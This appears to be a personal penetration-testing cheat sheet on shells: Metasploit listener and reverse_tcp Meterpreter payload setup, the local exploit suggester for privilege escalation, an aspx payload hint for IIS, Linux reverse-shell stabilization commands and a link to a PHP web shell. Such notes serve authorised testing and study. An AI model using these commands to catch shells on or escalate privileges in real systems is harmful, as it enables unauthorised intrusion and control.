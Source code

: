 # SHELL, reverse, bind

## msfconsole

- listener

  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
    - the same one used to generate the payload with msfvenom

- privesc
  - Running `sysinfo` in the Meterpreter session reveals that the target is x86 architecture, so it is
    possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
    not be said for running the module on x64
  - `use post/multi/recon/local_exploit_suggester`
    - find potential vectors for privesc, msf modules

## payloads

- for `Microsoft IIS httpd 7.5` use aspx file

## Linux shell stabilization

- `python2 -c 'import pty;pty.spawn("/bin/bash")'`
- ctrl + z to background
- `stty raw -echo`, to fix tab completition
- `fg`, to bring back the shell

- [optional, fix vim]
  - on attacker
    - `echo $TERM`
      > xterm-256color
  - on victim rev shell
    - `export TERM=screen`
    - or `export TERM=xterm-256color` ?

## Web shells

- https://github.com/Arrexel/phpbash
